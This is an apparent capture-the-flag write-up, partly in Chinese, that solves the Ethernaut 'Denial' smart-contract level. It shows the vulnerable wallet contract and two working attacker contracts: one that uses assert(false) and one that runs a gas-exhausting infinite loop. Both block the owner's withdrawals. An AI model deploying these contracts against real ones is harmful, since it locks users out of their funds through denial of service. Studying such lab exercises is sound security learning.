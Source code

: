 This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Denial {
    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = payable(address(0xA9E));
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(
            amountToSend
        );
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```









这里的核心思想就是使整个交易在***partner.call{value: amountToSend}("")***这行run out of gas，才能使之后的代码无法执行，从而变成DoS攻击，而Attacker的写法分两种，根据官网文档

https://docs.soliditylang.org/en/latest/control-structures.html?highlight=revert%20assert#revert

因为assert会产生Panic，而0.8.0以前Panic会消耗掉所有gas，所以0.6.0的写法就是简单的assert(false)就可以了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract DenialAttacker {
    
    receive() external payable {
        assert(false);
    }

}
```



0.8.0之后的版本就要写成这样一个无限循环，把gas消耗掉造成run out of gas的效果

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract DenialAttacker {
    uint256 private sum;
    
    receive() external payable {
        uint256 index;
            for (index = 0; index < type(uint256).max; index++) {
            sum += 1;
        }
    }

    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```







Resolution

https://medium.com/@safeZ1/ethernaut-lvl-20-denial-walkthrough-how-to-abuse-gas-in-solidity-b50291341e6

In this table we can see the difference between these keywords:

![](../errordifferences.png)

If you want to know more about error handling patterns, you can visit [this](https://docs.soliditylang.org/en/v0.6.6/control-structures.html#error-handling-assert-require-revert-and-exceptions).

for solving this level we must consider these 2 important points:

1- **assert(false)** consumes all remaining gas, and reverting all changes.
2- in the **call** function, the gas generally is not limited to 2300 and in this level, the fallback function is invoked with call and not send or transfer.